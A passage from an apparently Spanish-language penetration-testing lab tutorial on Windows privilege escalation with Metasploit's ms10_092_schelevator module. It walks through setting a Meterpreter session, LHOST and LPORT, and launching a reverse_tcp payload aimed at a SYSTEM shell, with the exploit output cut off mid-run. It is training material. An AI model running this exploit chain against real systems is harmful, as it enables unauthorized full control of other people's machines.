 ### Setting Privilege Escalation Module Options

Una vez configurado esto, ahora podemos configurar el módulo de escalación de privilegios especificando nuestra sesión actual de Meterpreter, estableciendo nuestra IP tun0 para LHOST y un puerto de llamada de nuestra elección.

```r
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1

SESSION => 1


msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.3

lhost => 10.10.14.3


msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443

lport => 4443


msf6 exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008
```

### Receiving Elevated Reverse Shell

Si todo sale según lo planeado, una vez que escribamos `exploit`, recibiremos una nueva shell de Meterpreter como la cuenta `NT AUTHORITY\SYSTEM` y podemos proceder a realizar cualquier post-explotación necesario.

```r
msf6 exploit(windows/local/ms10_092_schelevator) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4443
[*] Preparing payload at C:\Windows\TEMP\uQEcovJYYHhC.exe
[*] Creating task: isqR4gw3RlxnplB
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\isqR4gw3RlxnplB...
[*] Original CRC32: 0x89b06d1a
[*] Final CRC32: 0x89b06d1a
[*] Writing our modified content back...
[*] Validating task: isqR4gw3RlxnplB
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
```